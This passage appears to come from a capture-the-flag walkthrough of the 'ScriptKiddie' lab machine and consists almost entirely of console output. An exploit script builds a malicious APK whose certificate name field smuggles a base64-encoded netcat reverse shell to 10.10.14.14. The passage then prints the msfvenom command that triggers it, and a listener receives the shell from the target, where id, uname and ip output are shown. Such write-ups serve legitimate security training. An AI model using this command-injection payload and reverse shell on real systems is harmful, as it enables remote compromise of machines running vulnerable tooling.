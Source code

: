 ```console
└─╼$ python exp.py
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 1234 >/tmp/f
-dname: CN='|echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xNCAxMjM0ID4vdG1wL2Y= | base64 -d | sh #

  adding: empty (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4xNCAxMjM0ID4vdG1wL2Y= | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp7v5qr666/evil.apk
Do: msfvenom -x /tmp/tmp7v5qr666/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 53722
bash: cannot set terminal process group (860): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~/html$ uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
kid@scriptkiddie:~/html$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:a7:fa brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.226/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:a7fa/64 scope global dynamic mngtmpaddr
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:a7fa/64 scope link
       valid_lft forever preferred_lft forever
```
